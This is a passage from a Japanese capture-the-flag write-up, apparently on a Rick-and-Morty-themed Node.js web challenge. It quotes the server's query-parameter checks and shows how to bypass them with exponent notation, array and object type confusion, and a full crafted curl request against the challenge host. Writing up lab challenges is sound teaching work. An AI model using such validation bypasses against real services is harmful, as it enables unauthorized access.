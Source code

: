 ```
```

### weired
```javascript
let weired = req.query.weired;
if (!Array.isArray(weired) && (typeof weired) !== "object") {
  if (!weired.includes(".")) {
    weired = parseFloat(weired);
    if (weired > 0 && weired < 0.05) {
      // …
    }
    else {
      res.end("Is zero the minimal value Morty?");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty it only accepts numbers and stuff like that.");
}
```

`weired` に `.` が含まれていないかチェックした上で、これを浮動小数点に変換して `0 < weired < 0.05` であるかどうかチェックしています。`1e-3` のような指数表記を使いましょう。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&wei
red=1e-3'
Wait Morty where's my thing?
```

### st, ar
```javascript
let st = req.query.st;
let ar = req.query.ar;
if (!st.includes(",") && !ar.includes(",") && ar.length === 2 && st.length === 2) {
  if ((st + ar) === "1,33,7") {
    if (sess.AccessGranted !== "undefined" && sess.AccessGranted === true) {
      // …
    }
    else {
      res.end("Access denied Morty.");
    }
  }
  else {
    res.end("Not that clear Morty.");
```